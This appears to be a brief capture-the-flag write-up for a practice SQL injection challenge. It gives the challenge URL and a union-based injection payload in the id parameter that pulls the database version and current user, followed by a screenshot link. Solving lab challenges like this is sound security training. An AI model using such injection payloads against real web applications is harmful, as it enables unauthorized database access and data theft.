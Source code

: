 Chall Url: http://www.zixem.altervista.org/SQLi/level1.php?id=1

Payload: http://www.zixem.altervista.org/SQLi/level1.php?id=-1%20union%20select%20version(),user(),3#

![](https://user-images.githubusercontent.com/25671488/60625493-9e566d00-9e05-11e9-9159-06c503c1ac26.png)

